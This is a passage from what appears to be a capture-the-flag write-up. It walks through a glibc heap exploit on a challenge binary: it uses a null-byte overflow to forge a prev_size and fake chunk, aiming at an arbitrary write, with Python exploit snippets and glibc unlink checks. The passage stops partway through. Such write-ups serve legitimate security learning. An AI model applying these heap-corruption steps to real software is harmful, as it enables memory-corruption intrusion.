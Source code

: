 There is the msg struct! it contains pointers to both the name, and the msg strings, and if we could tamper with the msg string and then use the edit function, we can get an arbitrary write primitive.

Lets delete all the previous messages and allocate a new message:
```PY
send_all()
add_msg("TTTTTT", 'ttttttttt')
```
This is how it looks in the heap:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/ee3d17dc-ffe8-430b-a2d8-dd5aa993520e)

Now, with our null byte overflow, we will create a fake chunk before the msg struct (i.e before 0x4062b0)

By tampering with the chunk's prev_size, we can set prev_size = 0xf0, which will free the chunk located at `victim - 0xf0`. here is how it looks like in the heap:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/bb0a042d-2e71-4501-995b-7ff62cb6e708)

To bypass malloc mitegaions, we need to make sure that `victim - 0xf0` size's field is indeed 0xf0. here is how I shaped it in my script:

```py
    send_all()
    prev_size = 0xf0
    add_msg("a",  b"A" * 424 + p64(prev_size))

    for i in range(6):
        add_msg("t", "t")

    
    chunk_a = add_msg(b"B" * 0x70 + p64(prev_size), "a") #this will corrupt the next chunk size field
    set_sender("AVOID CONSOLIDATION") #to avoid consolidation with the top chunk
    send_all() #free! this will create link our fake chunk at `victim - 0xf0` to the unsorted bin.
```

if we try to run it, it will crash, because it will check the bk and the fd of our fake chunk:

 ```c
  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");
  fd->bk = bk;
  bk->fd = fd;
```

Here is how it looks like in assembly: (RDI points to our fake chunk)
```asm
    0x7ffff7e82cd9    mov    rax, qword ptr [rdi + 0x10]
    0x7ffff7e82cdd    mov    rdx, qword ptr [rdi + 0x18]
    0x7ffff7e82ce1    cmp    rdi, qword ptr [rax + 0x18]
    0x7ffff7e82ce5  ✔ jne    0x7ffff7e82d50                <0x7ffff7e82d50>
    0x7ffff7e82d50    lea    rdi, [rip + 0x10801f]
    0x7ffff7e82d57    call   0x7ffff7e81e60                <0x7ffff7e81e60>
```
